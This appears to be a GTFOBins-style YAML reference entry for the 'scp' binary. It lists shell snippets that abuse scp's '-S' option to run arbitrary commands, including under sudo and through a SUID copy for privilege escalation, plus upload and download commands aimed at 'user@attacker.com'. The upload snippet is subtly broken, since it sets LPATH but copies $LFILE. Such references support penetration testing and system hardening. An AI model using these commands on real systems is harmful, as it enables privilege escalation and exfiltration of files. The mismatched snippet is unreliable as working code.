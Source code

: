 ```yaml
---
functions:
  exec-non-interactive:
    - code: |
        TF=$(mktemp)
        CMD="id"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        scp -S $TF x y:
  sudo-enabled:
    - code: |
        TF=$(mktemp)
        CMD="id"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        sudo scp -S $TF x y:
  suid-limited:
    - code: |
        TF=$(mktemp)
        CMD="id"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        ./scp -S $TF a b:
  upload:
    - description: Send local file to a SSH server.
      code: |
        RPATH=user@attacker.com:~/where_to_save
        LPATH=file_to_send
        scp $LFILE $RPATH
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_get
        LFILE=where_to_save
        scp $RPATH $LFILE
---
```


